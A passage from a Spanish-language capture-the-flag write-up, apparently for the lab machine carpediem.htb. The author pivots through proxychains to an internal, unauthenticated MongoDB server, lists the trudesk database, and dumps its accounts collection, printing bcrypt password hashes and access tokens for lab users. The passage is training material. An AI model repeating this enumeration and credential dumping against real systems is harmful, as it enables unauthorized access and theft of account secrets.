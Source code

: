 El ```MySQL``` ya lo había enumerado a través de la inyección, pero no encontré nada. Sin embargo, hay otra base de datos, pero en ```MongoDB```

```null
 proxychains mongo 172.17.0.4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
MongoDB shell version v6.0.1
connecting to: mongodb://172.17.0.4:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("3259a2f3-dd2f-4756-a2dd-c90f843cf6f1") }
MongoDB server version: 5.0.6
WARNING: shell and server versions do not match
> 
```

Puedo listar las bases de datos

```null
> show dbs
admin    0.000GB
config   0.000GB
local    0.000GB
trudesk  0.001GB
```

La única que tiene algo de contendido es ```trudesk```

```null
> use trudesk
switched to db trudesk
> show collections
accounts
counters
departments
groups
messages
notifications
priorities
role_order
roles
sessions
settings
tags
teams
templates
tickets
tickettypes
```

En ```MongoDB``` existe una forma de buscar por las cuentas existentes

```null
> db.accounts.find()
{ "_id" : ObjectId("623c8b20855cc5001a8ba13c"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "admin", "password" : "$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS", "fullname" : "Robert Frost", "email" : "rfrost@carpediem.htb", "role" : ObjectId("623c8b20855cc5001a8ba138"), "title" : "Sr. Network Engineer", "accessToken" : "22e56ec0b94db029b07365d520213ef6f5d3d2d9", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:30:32.198Z") }
{ "_id" : ObjectId("6243c0be1e0d4d001b0740d4"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "jhammond", "email" : "jhammond@carpediem.htb", "password" : "$2b$10$n4yEOTLGA0SuQ.o0CbFbsex3pu2wYr924cKDaZgLKFH81Wbq7d9Pq", "fullname" : "Jeremy Hammond", "title" : "Sr. Systems Engineer", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "a0833d9a06187dfd00d553bd235dfe83e957fd98", "__v" : 0, "lastOnline" : ISODate("2022-04-01T23:36:55.940Z") }
```